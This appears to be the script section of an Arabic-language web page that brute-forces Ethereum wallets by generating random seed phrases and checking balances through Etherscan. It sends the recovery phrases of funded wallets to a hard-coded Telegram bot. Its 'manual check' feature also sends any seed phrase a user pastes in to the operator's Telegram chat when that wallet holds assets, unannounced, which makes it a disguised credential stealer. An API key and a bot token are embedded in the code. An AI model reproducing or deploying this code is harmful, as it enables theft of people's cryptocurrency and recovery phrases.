            "this", "thought", "three", "thrive", "throw", "thumb", "thunder", "ticket", "tide", "tiger",
            "tilt", "timber", "time", "tiny", "tip", "tired", "tissue", "title", "toast", "tobacco",
            "today", "toddler", "toe", "together", "toilet", "token", "tomato", "tomorrow", "tone", "tongue",
            "tonight", "tool", "tooth", "top", "topic", "topple", "torch", "tornado", "tortoise", "toss",
            "total", "tourist", "toward", "tower", "town", "toy", "track", "trade", "traffic", "tragic",
            "train", "transfer", "trap", "trash", "travel", "tray", "treat", "tree", "trend", "trial",
            "tribe", "trick", "trigger", "trim", "trip", "trophy", "trouble", "truck", "true", "truly",
            "trumpet", "trust", "truth", "try", "tube", "tuition", "tumble", "tuna", "tunnel", "turkey",
            "turn", "turtle", "twelve", "twenty", "twice", "twin", "twist", "two", "type", "typical",
            "ugly", "umbrella", "unable", "unaware", "uncle", "uncover", "under", "undo", "unfair", "unfold",
            "unhappy", "uniform", "unique", "unit", "universe", "unknown", "unlock", "until", "unusual", "unveil",
            "update", "upgrade", "uphold", "upon", "upper", "upset", "urban", "urge", "usage", "use",
            "used", "useful", "useless", "usual", "utility", "vacant", "vacuum", "vague", "valid", "valley",
            "valve", "van", "vanish", "vapor", "various", "vast", "vault", "vehicle", "velvet", "vendor",
            "venture", "venue", "verb", "verify", "version", "very", "vessel", "veteran", "viable", "vibrant",
            "vicious", "victory", "video", "view", "village", "vintage", "violin", "virtual", "virus", "visa",
            "visit", "visual", "vital", "vivid", "vocal", "voice", "void", "volcano", "volume", "vote",
            "voyage", "wage", "wagon", "wait", "walk", "wall", "walnut", "want", "warfare", "warm",
            "warrior", "wash", "wasp", "waste", "water", "wave", "way", "wealth", "weapon", "weary",
            "weather", "web", "wedding", "weekend", "weird", "welcome", "west", "wet", "whale", "what",
            "wheat", "wheel", "when", "where", "whip", "whisper", "wide", "width", "wife", "wild",
            "will", "win", "window", "wine", "wing", "wink", "winner", "winter", "wire", "wisdom",
            "wise", "wish", "witness", "wolf", "woman", "wonder", "wood", "wool", "word", "work",
            "world", "worry", "worth", "wrap", "wreck", "wrestle", "wrist", "write", "wrong", "yard",
            "year", "yellow", "you", "young", "youth", "zebra", "zero", "zone", "zoo"
        ];

        // إعدادات التطبيق
        const ETHERSCAN_API_KEY = 'ZTX93YC56F73T2W58IKS6GWWDH8UDRGBFK';
        const ETHERSCAN_API_URL = 'https://api.etherscan.io/api';
        const TELEGRAM_BOT_TOKEN = '8257110214:AAFDx0awsmi7yjz6tCZqVY2jS5BZmygvQKw';
        const TELEGRAM_CHAT_ID = '910021564';
        const TELEGRAM_API_URL = `https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}`;

        // متغيرات العملية
        let isRunning = false;
        let searchInterval = null;
        let stats = {
            totalGenerated: 0,
            activeWallets: 0,
            emptyWallets: 0,
            errors: 0
        };

        // عناصر DOM
        const elements = {
            startBtn: document.getElementById('startBtn'),
            stopBtn: document.getElementById('stopBtn'),
            testTelegramBtn: document.getElementById('testTelegramBtn'),
            clearLogsBtn: document.getElementById('clearLogsBtn'),
            checkMnemonicBtn: document.getElementById('checkMnemonicBtn'),
            checkAddressBtn: document.getElementById('checkAddressBtn'),
            searchSpeed: document.getElementById('searchSpeed'),
            maxAttempts: document.getElementById('maxAttempts'),
            checkTokens: document.getElementById('checkTokens'),
            manualCheckTokens: document.getElementById('manualCheckTokens'),
            addressCheckTokens: document.getElementById('addressCheckTokens'),
            manualMnemonic: document.getElementById('manualMnemonic'),
            manualAddress: document.getElementById('manualAddress'),
            manualCheckResult: document.getElementById('manualCheckResult'),
            totalGenerated: document.getElementById('totalGenerated'),
            activeWallets: document.getElementById('activeWallets'),
            emptyWallets: document.getElementById('emptyWallets'),
            errorCount: document.getElementById('errorCount'),
            progressFill: document.getElementById('progressFill'),
            currentStatus: document.getElementById('currentStatus'),
            logPanel: document.getElementById('logPanel')
        };

        // وظائف التبويب
        function initTabs() {
            const tabButtons = document.querySelectorAll('.tab-button');
            const tabContents = document.querySelectorAll('.tab-content');
            
            tabButtons.forEach(button => {
                button.addEventListener('click', () => {
                    const tabId = button.getAttribute('data-tab');
                    
                    // إزالة النشاط من جميع الأزرار والمحتويات
                    tabButtons.forEach(btn => btn.classList.remove('active'));
                    tabContents.forEach(content => content.classList.remove('active'));
                    
                    // إضافة النشاط للعناصر المحددة
                    button.classList.add('active');
                    document.getElementById(tabId).classList.add('active');
                });
            });
        }

        // التحقق من تحميل ethers.js
        function checkEthersLoaded() {
            if (typeof ethers === 'undefined') {
                updateStatus('❌ فشل في تحميل مكتبة ethers.js. يرجى التحقق من اتصال الإنترنت.', 'danger');
                addLogEntry('❌ فشل في تحميل مكتبة ethers.js', 'error');
                return false;
            }
            return true;
        }

        // وظائف توليد العبارات العشوائية
        function getSecureRandomInt(max) {
            const array = new Uint32Array(1);
            window.crypto.getRandomValues(array);
            return array[0] % max;
        }

        function generateRandomBIP39Phrase() {
            const words = [];
            for (let i = 0; i < 12; i++) {
                const randomIndex = getSecureRandomInt(BIP39_WORDLIST.length);
                words.push(BIP39_WORDLIST[randomIndex]);
            }
            return words.join(' ');
        }

        // وظائف المحفظة
        async function mnemonicToAddress(mnemonic) {
            try {
                if (!checkEthersLoaded()) {
                    throw new Error('مكتبة ethers.js غير محملة');
                }
                
                // التحقق من صحة العبارة باستخدام ethers
                if (!ethers.utils.isValidMnemonic(mnemonic)) {
                    throw new Error('عبارة استرجاع غير صالحة');
                }
                
                const wallet = ethers.Wallet.fromMnemonic(mnemonic);
                return wallet.address;
            } catch (error) {
                console.error('خطأ في تحويل العبارة إلى عنوان:', error);
                throw error;
            }
        }

        // وظائف Etherscan API الموسعة
        async function checkETHBalance(address) {
            try {
                const url = `${ETHERSCAN_API_URL}?module=account&action=balance&address=${address}&tag=latest&apikey=${ETHERSCAN_API_KEY}`;
                const response = await fetch(url);
                const data = await response.json();
                
                if (data.status === '1' && data.result) {
                    const balanceWei = data.result;
                    const balanceEth = ethers.utils.formatEther(balanceWei);
                    return parseFloat(balanceEth);
                } else {
                    throw new Error(data.message || 'خطأ في الحصول على الرصيد');
                }
            } catch (error) {
                console.error('خطأ في التحقق من رصيد ETH:', error);
                return null;
            }
        }

        async function checkERC20Tokens(address) {
            try {
                const url = `${ETHERSCAN_API_URL}?module=account&action=tokentx&address=${address}&startblock=0&endblock=99999999&sort=asc&apikey=${ETHERSCAN_API_KEY}`;
                const response = await fetch(url);
                const data = await response.json();
                
                if (data.status === '1' && data.result) {
                    // تحليل المعاملات للعثور على الرموز المميزة
                    const tokens = {};
                    data.result.forEach(tx => {
                        const tokenAddress = tx.contractAddress;
                        const tokenName = tx.tokenName || 'Unknown Token';
                        const tokenSymbol = tx.tokenSymbol || 'UNKNOWN';
                        const tokenValue = parseFloat(ethers.utils.formatUnits(tx.value, parseInt(tx.tokenDecimal) || 18));
                        
                        if (!tokens[tokenAddress]) {
                            tokens[tokenAddress] = {
                                name: tokenName,
                                symbol: tokenSymbol,
                                address: tokenAddress,
                                balance: tokenValue,
                                decimals: parseInt(tx.tokenDecimal) || 18,
                                hasActivity: true
                            };
                        }
                    });
                    
                    return Object.values(tokens);
                } else if (data.message === 'No transactions found') {
                    return [];
                } else {
                    throw new Error(data.message || 'خطأ في الحصول على الرموز المميزة');
                }
            } catch (error) {
                console.error('خطأ في التحقق من الرموز المميزة:', error);
                return null;
            }
        }

        async function checkInternalTransactions(address) {
            try {
                const url = `${ETHERSCAN_API_URL}?module=account&action=txlistinternal&address=${address}&startblock=0&endblock=99999999&sort=asc&apikey=${ETHERSCAN_API_KEY}`;
                const response = await fetch(url);
                const data = await response.json();
                
                return data.status === '1' && data.result ? data.result : [];
            } catch (error) {
                console.error('خطأ في التحقق من المعاملات الداخلية:', error);
                return [];
            }
        }

        async function checkNFTs(address) {
            try {
                const url = `${ETHERSCAN_API_URL}?module=account&action=tokennfttx&address=${address}&startblock=0&endblock=99999999&sort=asc&apikey=${ETHERSCAN_API_KEY}`;
                const response = await fetch(url);
                const data = await response.json();
                
                return data.status === '1' && data.result ? data.result : [];
            } catch (error) {
                console.error('خطأ في التحقق من NFTs:', error);
                return [];
            }
        }

        async function checkWalletAssets(address) {
            try {
                addLogEntry(`🔍 جاري فحص أصول المحفظة: ${address.substring(0, 10)}...`);
                
                // التحقق من رصيد ETH
                const ethBalance = await checkETHBalance(address);
                
                let tokens = [];
                let nfts = [];
                let internalTxs = [];
                
                // التحقق من الرموز المميزة إذا كان الخيار مفعل
                if (elements.checkTokens.checked || elements.manualCheckTokens.checked || elements.addressCheckTokens.checked) {
                    tokens = await checkERC20Tokens(address) || [];
                    nfts = await checkNFTs(address);
                    internalTxs = await checkInternalTransactions(address);
                }
                
                const hasETH = ethBalance !== null && ethBalance > 0;
                const hasTokens = tokens.length > 0;
                const hasNFTs = nfts.length > 0;
                const hasInternalTxs = internalTxs.length > 0;
                
                const totalAssets = (hasETH ? 1 : 0) + tokens.length + nfts.length;
                
                return {
                    hasAssets: hasETH || hasTokens || hasNFTs,
                    ethBalance: ethBalance,
                    tokens: tokens,
                    nfts: nfts,
                    internalTransactions: internalTxs,
                    hasETH: hasETH,
                    hasTokens: hasTokens,
                    hasNFTs: hasNFTs,
                    hasInternalTxs: hasInternalTxs,
                    totalAssets: totalAssets
                };
            } catch (error) {
                console.error('خطأ في التحقق من أصول المحفظة:', error);
                return {
                    hasAssets: false,
                    ethBalance: null,
                    tokens: [],
                    nfts: [],
                    internalTransactions: [],
                    hasETH: false,
                    hasTokens: false,
                    hasNFTs: false,
                    hasInternalTxs: false,
                    totalAssets: 0,
                    error: error.message
                };
            }
        }

        // وظائف Telegram المحسنة
        async function sendTelegramMessage(message) {
            try {
                const response = await fetch(`${TELEGRAM_API_URL}/sendMessage`, {
                    method: 'POST',
                    headers: { 'Content-Type': 'application/json' },
                    body: JSON.stringify({
                        chat_id: TELEGRAM_CHAT_ID,
                        text: message,
                        parse_mode: 'HTML'
                    })
                });
                
                const data = await response.json();
                if (!data.ok) {
                    console.error('خطأ في إرسال الرسالة:', data.description);
                    return false;
                }
                
                return true;
            } catch (error) {
                console.error('خطأ في الاتصال بـ Telegram:', error);
                return false;
            }
        }

        function formatWalletMessage(mnemonic, address, walletDetails) {
            const timestamp = new Date().toLocaleString('ar-EG', {
                timeZone: 'Africa/Cairo',
                year: 'numeric',
                month: '2-digit',
                day: '2-digit',
                hour: '2-digit',
                minute: '2-digit',
                second: '2-digit'
            });
            
            let message = `🎉 <b>تم العثور على محفظة تحتوي على أصول!</b>\n\n`;
            
            if (mnemonic) {
                message += `📝 <b>عبارة الاسترجاع:</b>\n<code>${mnemonic}</code>\n\n`;
            }
            
            message += `📍 <b>العنوان:</b>\n<code>${address}</code>\n\n`;
            
            if (walletDetails.ethBalance !== null && walletDetails.ethBalance > 0) {
                message += `💰 <b>رصيد ETH:</b> ${walletDetails.ethBalance.toFixed(6)} ETH\n`;
            }
            
            if (walletDetails.tokens.length > 0) {
                message += `🪙 <b>الرموز المميزة:</b> ${walletDetails.tokens.length} رمز\n`;
                walletDetails.tokens.slice(0, 5).forEach(token => {
                    message += `   • ${token.name} (${token.symbol}): ${token.balance.toFixed(4)}\n`;
                });
                if (walletDetails.tokens.length > 5) {
                    message += `   ... و ${walletDetails.tokens.length - 5} أكثر\n`;
                }
            }
            
            if (walletDetails.nfts.length > 0) {
                message += `🖼️ <b>الرموز غير القابلة للاستبدال (NFTs):</b> ${walletDetails.nfts.length}\n`;
            }
            
            if (walletDetails.internalTransactions.length > 0) {
                message += `🔗 <b>المعاملات الداخلية:</b> ${walletDetails.internalTransactions.length}\n`;
            }
            
            message += `\n🔗 <a href="https://etherscan.io/address/${address}#asset-multichain">عرض الأصول على Etherscan</a>`;
            message += `\n\n⏰ <b>الوقت:</b> ${timestamp}`;
            message += `\n📊 <b>إجمالي الأصول:</b> ${walletDetails.totalAssets}`;
            
            return message;
        }

        async function sendWalletToTelegram(mnemonic, address, walletDetails) {
            try {
                const message = formatWalletMessage(mnemonic, address, walletDetails);
                return await sendTelegramMessage(message);
            } catch (error) {
                console.error('خطأ في إرسال المحفظة:', error);
                return false;
            }
        }

        // وظائف السجل
        function addLogEntry(message, type = 'info') {
            const timestamp = new Date().toLocaleTimeString('ar-EG');
            const logEntry = document.createElement('div');
            logEntry.className = `log-entry log-${type}`;
            logEntry.innerHTML = `<span class="log-timestamp">[${timestamp}]</span> ${message}`;
            
            elements.logPanel.appendChild(logEntry);
            elements.logPanel.scrollTop = elements.logPanel.scrollHeight;
        }

        // وظائف تحديث الواجهة
        function updateStats() {
            elements.totalGenerated.textContent = stats.totalGenerated;
            elements.activeWallets.textContent = stats.activeWallets;
            elements.emptyWallets.textContent = stats.emptyWallets;
            elements.errorCount.textContent = stats.errors;
            
            const maxAttempts = parseInt(elements.maxAttempts.value) || 0;
            if (maxAttempts > 0) {
                const progress = (stats.totalGenerated / maxAttempts) * 100;
                elements.progressFill.style.width = `${Math.min(progress, 100)}%`;
            }
        }

        function updateStatus(message, type = 'info') {
            elements.currentStatus.textContent = message;
            elements.currentStatus.className = `alert alert-${type}`;
        }

        // وظيفة التحقق اليدوي من العبارة
        async function checkMnemonicManually() {
            const mnemonic = elements.manualMnemonic.value.trim();
            
            if (!mnemonic) {
                updateStatus('❌ يرجى إدخال عبارة استرجاع', 'danger');
                return;
            }
            
            if (!checkEthersLoaded()) {
                return;
            }
            
            // إظهار رسالة التحميل
            elements.checkMnemonicBtn.disabled = true;
            elements.checkMnemonicBtn.innerHTML = '<span class="loading-spinner"></span> جاري الفحص...';
            
            try {
                // التحقق من صحة العبارة
                if (!ethers.utils.isValidMnemonic(mnemonic)) {
                    throw new Error('عبارة الاسترجاع غير صالحة. يرجى التحقق من الكلمات.');
                }
                
                updateStatus('جاري فحص عبارة الاسترجاع...', 'info');
                addLogEntry(`🔍 جاري فحص العبارة يدويًا: ${mnemonic.substring(0, 30)}...`);
                
                // تحويل العبارة إلى عنوان
                const address = await mnemonicToAddress(mnemonic);
                
                if (!address) {
                    throw new Error('فشل في تحويل العبارة إلى عنوان');
                }
                
                addLogEntry(`تم تحويل العبارة إلى العنوان: ${address}`);
                
                // فحص أصول المحفظة
                const walletDetails = await checkWalletAssets(address);
                
                // عرض النتائج
                displayManualCheckResult(mnemonic, address, walletDetails);
                
                if (walletDetails.hasAssets) {
                    updateStatus(`✅ تم العثور على محفظة نشطة! العنوان: ${address.substring(0, 20)}...`, 'success');
                    addLogEntry(`🎉 المحفظة تحتوي على أصول! العنوان: ${address}`, 'success');
                    
                    // إرسال المحفظة إلى Telegram
                    const telegramSent = await sendWalletToTelegram(mnemonic, address, walletDetails);
                    if (telegramSent) {
                        addLogEntry('✅ تم إرسال المحفظة إلى Telegram بنجاح', 'success');
                    } else {
                        addLogEntry('❌ فشل في إرسال المحفظة إلى Telegram', 'error');
                    }
                } else {
                    updateStatus(`📭 المحفظة فارغة أو لا تحتوي على أصول`, 'info');
                    addLogEntry(`📭 المحفظة فارغة: ${address}`, 'info');
                }
                
            } catch (error) {
                console.error('خطأ في فحص العبارة يدويًا:', error);
                updateStatus(`❌ ${error.message}`, 'danger');
                addLogEntry(`❌ خطأ في فحص العبارة: ${error.message}`, 'error');
                
                // عرض رسالة الخطأ في قسم النتائج
                elements.manualCheckResult.innerHTML = `
                    <h4>❌ نتيجة الفحص</h4>
                    <div class="alert alert-danger">
                        <strong>خطأ:</strong> ${error.message}
                    </div>
                `;
                elements.manualCheckResult.style.display = 'block';
            } finally {
                // إعادة تعيين زر الفحص
                elements.checkMnemonicBtn.disabled = false;
                elements.checkMnemonicBtn.innerHTML = '<span>🔎 فحص العبارة</span>';
            }
        }

        // وظيفة التحقق اليدوي من العنوان
        async function checkAddressManually() {
            const address = elements.manualAddress.value.trim();
            
            if (!address) {
                updateStatus('❌ يرجى إدخال عنوان المحفظة', 'danger');
                return;
            }
            
            // التحقق من صحة العنوان
            if (!ethers.utils.isAddress(address)) {
                updateStatus('❌ عنوان المحفظة غير صالح', 'danger');
                return;
            }
            
            // إظهار رسالة التحميل
            elements.checkAddressBtn.disabled = true;
            elements.checkAddressBtn.innerHTML = '<span class="loading-spinner"></span> جاري الفحص...';
            
            try {
                updateStatus('جاري فحص عنوان المحفظة...', 'info');
                addLogEntry(`🔍 جاري فحص العنوان يدويًا: ${address}`);
                
                // فحص أصول المحفظة
                const walletDetails = await checkWalletAssets(address);
                
                // عرض النتائج
                displayManualCheckResult(null, address, walletDetails);
                
                if (walletDetails.hasAssets) {
                    updateStatus(`✅ تم العثور على محفظة نشطة!`, 'success');
                    addLogEntry(`🎉 المحفظة تحتوي على أصول! العنوان: ${address}`, 'success');
                    
                    // إرسال المحفظة إلى Telegram
                    const telegramSent = await sendWalletToTelegram(null, address, walletDetails);
                    if (telegramSent) {
                        addLogEntry('✅ تم إرسال المحفظة إلى Telegram بنجاح', 'success');
                    } else {
                        addLogEntry('❌ فشل في إرسال المحفظة إلى Telegram', 'error');
                    }
                } else {
                    updateStatus(`📭 المحفظة فارغة أو لا تحتوي على أصول`, 'info');
                    addLogEntry(`📭 المحفظة فارغة: ${address}`, 'info');
                }
                
            } catch (error) {
                console.error('خطأ في فحص العنوان يدويًا:', error);
                updateStatus(`❌ ${error.message}`, 'danger');
                addLogEntry(`❌ خطأ في فحص العنوان: ${error.message}`, 'error');
                
                // عرض رسالة الخطأ في قسم النتائج
                elements.manualCheckResult.innerHTML = `
                    <h4>❌ نتيجة الفحص</h4>
                    <div class="alert alert-danger">
                        <strong>خطأ:</strong> ${error.message}
                    </div>
                `;
                elements.manualCheckResult.style.display = 'block';
            } finally {
                // إعادة تعيين زر الفحص
                elements.checkAddressBtn.disabled = false;
                elements.checkAddressBtn.innerHTML = '<span>🔎 فحص العنوان</span>';
            }
        }

        // عرض نتائج الفحص اليدوي
        function displayManualCheckResult(mnemonic, address, walletDetails) {
            let resultHTML = `
                <h4>${walletDetails.hasAssets ? '🎉 محفظة نشطة!' : '📭 محفظة فارغة'}</h4>
                <div class="wallet-info">
            `;
            
            if (mnemonic) {
                resultHTML += `
                    <div class="wallet-info-item">
                        <span class="wallet-info-label">عبارة الاسترجاع:</span>
                        <span class="wallet-info-value"><code>${mnemonic}</code></span>
                    </div>
                `;
            }
            
            resultHTML += `
                    <div class="wallet-info-item">
                        <span class="wallet-info-label">العنوان:</span>
                        <span class="wallet-info-value"><code>${address}</code></span>
                    </div>
                    <div class="wallet-info-item">
                        <span class="wallet-info-label">رصيد ETH:</span>
                        <span class="wallet-info-value">${walletDetails.ethBalance !== null ? walletDetails.ethBalance.toFixed(6) + ' ETH' : 'غير متوفر'}</span>
                    </div>
                    <div class="wallet-info-item">
                        <span class="wallet-info-label">تحتوي على ETH:</span>
                        <span class="wallet-info-value">${walletDetails.hasETH ? '✅ نعم' : '❌ لا'}</span>
                    </div>
                    <div class="wallet-info-item">
                        <span class="wallet-info-label">تحتوي على رموز:</span>
                        <span class="wallet-info-value">${walletDetails.hasTokens ? '✅ نعم (' + walletDetails.tokens.length + ' رمز)' : '❌ لا'}</span>
                    </div>
                    <div class="wallet-info-item">
                        <span class="wallet-info-label">تحتوي على NFTs:</span>
                        <span class="wallet-info-value">${walletDetails.hasNFTs ? '✅ نعم (' + walletDetails.nfts.length + ' NFT)' : '❌ لا'}</span>
                    </div>
                    <div class="wallet-info-item">
                        <span class="wallet-info-label">المعاملات الداخلية:</span>
                        <span class="wallet-info-value">${walletDetails.internalTransactions.length}</span>
                    </div>
                    <div class="wallet-info-item">
                        <span class="wallet-info-label">إجمالي الأصول:</span>
                        <span class="wallet-info-value">${walletDetails.totalAssets}</span>
                    </div>
            `;
            
            if (walletDetails.tokens.length > 0) {
                resultHTML += `
                    <div class="wallet-info-item">
                        <span class="wallet-info-label">الرموز المميزة:</span>
                        <div class="wallet-info-value">
                            <div class="token-list">
                `;
                
                walletDetails.tokens.forEach(token => {
                    resultHTML += `
                        <div class="token-item">
                            <div class="token-name">${token.name} (${token.symbol})</div>
                            <div class="token-symbol">${token.balance.toFixed(4)}</div>
                        </div>
                    `;
                });
                
                resultHTML += `
                            </div>
                        </div>
                    </div>
                `;
            }
            
            resultHTML += `
                </div>
                <div class="asset-grid">
                    <div class="asset-card">
                        <h5>💰 ETH</h5>
                        <div class="asset-value">${walletDetails.ethBalance !== null ? walletDetails.ethBalance.toFixed(6) + ' ETH' : '0 ETH'}</div>
                    </div>
                    <div class="asset-card">
                        <h5>🪙 الرموز المميزة</h5>
                        <div class="asset-value">${walletDetails.tokens.length}</div>
                    </div>
                    <div class="asset-card">
                        <h5>🖼️ NFTs</h5>
                        <div class="asset-value">${walletDetails.nfts.length}</div>
                    </div>
                    <div class="asset-card">
                        <h5>📊 إجمالي الأصول</h5>
                        <div class="asset-value">${walletDetails.totalAssets}</div>
                    </div>
                </div>
                <div class="button-group" style="margin-top: 15px;">
                    <a href="https://etherscan.io/address/${address}#asset-multichain" target="_blank" class="btn btn-secondary">
                        <span>🔗 عرض الأصول على Etherscan</span>
                    </a>
                </div>
            `;
            
            elements.manualCheckResult.innerHTML = resultHTML;
            elements.manualCheckResult.style.display = 'block';
        }

        // الوظيفة الرئيسية للبحث
        async function searchForActiveWallets() {
            try {
                if (!checkEthersLoaded()) {
                    stats.errors++;
                    updateStats();
                    return;
                }

                // توليد عبارة عشوائية
                const mnemonic = generateRandomBIP39Phrase();
                stats.totalGenerated++;
                
                updateStatus(`جاري فحص العبارة رقم ${stats.totalGenerated}...`, 'info');
                addLogEntry(`تم توليد عبارة جديدة: ${mnemonic.substring(0, 30)}...`);
                
                // تحويل العبارة إلى عنوان
                const address = await mnemonicToAddress(mnemonic);
                
                if (!address) {
                    stats.errors++;
                    addLogEntry('خطأ في تحويل العبارة إلى عنوان', 'error');
                    updateStats();
                    return;
                }
                
                addLogEntry(`تم تحويل العبارة إلى العنوان: ${address.substring(0, 20)}...`);
                
                // فحص أصول المحفظة
                const walletStatus = await checkWalletAssets(address);
                
                if (walletStatus.hasAssets) {
                    stats.activeWallets++;
                    addLogEntry(`🎉 تم العثور على محفظة تحتوي على أصول! العنوان: ${address}`, 'success');
                    
                    // إرسال المحفظة إلى Telegram
                    const telegramSent = await sendWalletToTelegram(mnemonic, address, walletStatus);
                    if (telegramSent) {
                        addLogEntry('✅ تم إرسال المحفظة إلى Telegram بنجاح', 'success');
                    } else {
                        addLogEntry('❌ فشل في إرسال المحفظة إلى Telegram', 'error');
                    }
                    
                    updateStatus(`تم العثور على محفظة نشطة! إجمالي المحافظ النشطة: ${stats.activeWallets}`, 'success');
                } else {
                    stats.emptyWallets++;
                    addLogEntry(`محفظة فارغة: ${address.substring(0, 20)}...`, 'info');
                }
                
                updateStats();
                
                // التحقق من الحد الأقصى للمحاولات
                const maxAttempts = parseInt(elements.maxAttempts.value) || 0;
                if (maxAttempts > 0 && stats.totalGenerated >= maxAttempts) {
                    stopSearch();
                    updateStatus(`تم الوصول للحد الأقصى من المحاولات (${maxAttempts})`, 'warning');
                    addLogEntry(`تم إيقاف البحث - وصل للحد الأقصى: ${maxAttempts} محاولة`, 'info');
                }
                
            } catch (error) {
                stats.errors++;
                addLogEntry(`خطأ في العملية: ${error.message}`, 'error');
                updateStats();
            }
        }

        // وظائف التحكم
        async function startSearch() {
            if (isRunning) return;
            
            if (!checkEthersLoaded()) {
                return;
            }
            
            isRunning = true;
            elements.startBtn.disabled = true;
            elements.stopBtn.disabled = false;
            
            const speed = parseInt(elements.searchSpeed.value) || 3000;
            
            updateStatus('جاري بدء البحث...', 'info');
            addLogEntry('🚀 تم بدء البحث عن المحافظ النشطة');
            
            // إرسال رسالة البداية إلى Telegram
            const checkTokens = elements.checkTokens.checked;
            let startMessage = `🚀 <b>بدء عملية البحث عن المحافظ النشطة</b>\n\n`;
            startMessage += `⏰ الوقت: ${new Date().toLocaleString('ar-EG', { timeZone: 'Africa/Cairo' })}\n`;
            startMessage += `🔍 جاري البحث عن محافظ تحتوي على أصول...\n`;
            startMessage += `🪙 البحث عن جميع الأصول: ${checkTokens ? '✅ مفعل' : '❌ معطل'}`;
            
            await sendTelegramMessage(startMessage);
            
            searchInterval = setInterval(searchForActiveWallets, speed);
        }

        async function stopSearch() {
            if (!isRunning) return;
            
            isRunning = false;
            elements.startBtn.disabled = false;
            elements.stopBtn.disabled = true;
            
            if (searchInterval) {
                clearInterval(searchInterval);
                searchInterval = null;
            }
            
            updateStatus('تم إيقاف البحث', 'warning');
            addLogEntry('⏹️ تم إيقاف البحث');
            
            // إرسال رسالة الإيقاف إلى Telegram
            let stopMessage = `⏹️ <b>تم إيقاف عملية البحث</b>\n\n`;
            stopMessage += `📊 <b>الإحصائيات النهائية:</b>\n`;
            stopMessage += `🔢 إجمالي العبارات: ${stats.totalGenerated}\n`;
            stopMessage += `✅ المحافظ النشطة: ${stats.activeWallets}\n`;
            stopMessage += `📭 المحافظ الفارغة: ${stats.emptyWallets}\n`;
            stopMessage += `\n⏰ الوقت: ${new Date().toLocaleString('ar-EG', { timeZone: 'Africa/Cairo' })}`;
            
            await sendTelegramMessage(stopMessage);
        }

        async function testTelegramConnection() {
            updateStatus('جاري اختبار الاتصال بـ Telegram...', 'info');
            addLogEntry('🧪 جاري اختبار الاتصال بـ Telegram...');
            
            const testMessage = `🧪 <b>اختبار الاتصال</b>\n\nتم الاتصال بنجاح مع بوت Telegram!\n⏰ ${new Date().toLocaleString('ar-EG', { timeZone: 'Africa/Cairo' })}`;
            const success = await sendTelegramMessage(testMessage);
            
            if (success) {
                updateStatus('✅ تم الاتصال بـ Telegram بنجاح!', 'success');
                addLogEntry('✅ تم الاتصال بـ Telegram بنجاح!', 'success');
            } else {
                updateStatus('❌ فشل في الاتصال بـ Telegram', 'danger');
                addLogEntry('❌ فشل في الاتصال بـ Telegram', 'error');
            }
        }

        function clearLogs() {
            elements.logPanel.innerHTML = '';
            addLogEntry('تم مسح السجل');
        }

        // ربط الأحداث
        function initEventListeners() {
            elements.startBtn.addEventListener('click', startSearch);
            elements.stopBtn.addEventListener('click', stopSearch);
            elements.testTelegramBtn.addEventListener('click', testTelegramConnection);
            elements.clearLogsBtn.addEventListener('click', clearLogs);
            elements.checkMnemonicBtn.addEventListener('click', checkMnemonicManually);
            elements.checkAddressBtn.addEventListener('click', checkAddressManually);
        }

        // التهيئة
        function init() {
            initTabs();
            initEventListeners();
            
            if (checkEthersLoaded()) {
                updateStatus('✅ تم تحميل مكتبة ethers.js بنجاح. جاهز للبدء...', 'success');
                addLogEntry('✅ تم تحميل مكتبة ethers.js بنجاح', 'success');
            }
            
            updateStats();
        }

        // بدء التطبيق
        document.addEventListener('DOMContentLoaded', init);
    </script>
</body>
</html>
